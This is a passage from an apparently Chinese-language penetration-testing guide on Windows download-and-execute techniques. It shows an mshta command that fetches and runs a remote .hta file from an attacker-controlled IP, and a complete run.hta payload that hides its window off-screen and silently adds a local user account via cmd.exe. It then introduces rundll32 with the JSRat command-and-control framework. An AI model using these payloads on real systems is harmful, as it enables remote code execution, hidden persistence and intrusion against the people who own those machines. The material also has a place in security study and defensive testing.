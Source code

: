 **11、mshta**

mshta用于执行.hta文件，而hta是HTML Applocation 的缩写，也就是HTML应用程序。而hta中也支持VBS。所以我们可以利用hta来下载文件。

```text
mshta http://192.168.28.128/run.hta
```

run.hta内容如下：

```text
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "cmd.exe /c net user test password /add" // 这里填写命令
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML>
```

![](../.gitbook/assets/20200413-11.png)

**12、rundll32**

其实还是依赖于WScript.shell这个组件，在这里我们使用JSRat来做演示，JSRat是一个命令和控制框架，仅为rundll32.exe和regsvr32.exe生成恶意程序。
